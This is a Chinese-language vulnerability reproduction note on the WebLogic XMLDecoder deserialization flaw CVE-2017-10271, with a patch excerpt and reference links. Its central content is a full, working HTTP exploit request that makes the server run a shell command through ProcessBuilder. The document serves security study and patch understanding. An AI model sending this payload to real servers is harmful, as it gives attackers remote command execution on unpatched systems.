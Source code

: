 # CVE-2017–10271-Weblogic SOAP XMLDecoder反序列化漏洞

## 漏洞原理

该漏洞为CVE-2017-3506漏洞的补丁绕过。在xml文档中，除了object标签可以调用java类，object，new, method, void，array等标签也可以调用java类

## 漏洞复现

payload

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.8.139:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 767

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder" method="new">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>touch /tmp/success</string>
            </void>
        </array>
        <void method="start"/>
    </void>>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

## 漏洞分析

 

## 漏洞修复

​	本次更新中官方将object、new、method关键字继续加入到黑名单中，一旦解析XML元素过程中匹配到上述任意一个关键字就立即抛出运行时异常。但是针对void和array这两个元素是有选择性的抛异常，其中当解析到void元素后，还会进一步解析该元素中的属性名，若没有匹配上index关键字才会抛出异常。而针对array元素而言，在解析到该元素属性名匹配class关键字的前提下，还会解析该属性值，若没有匹配上byte关键字，才会抛出运行时异常。

```java
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }

```

## 参考

IDEA调试：https://blog.csdn.net/weixin_45007073/article/details/119296404

https://www.freebuf.com/articles/system/202203.html

https://www.anquanke.com/post/id/102768#h2-0

https://xz.aliyun.com/t/10918#toc-2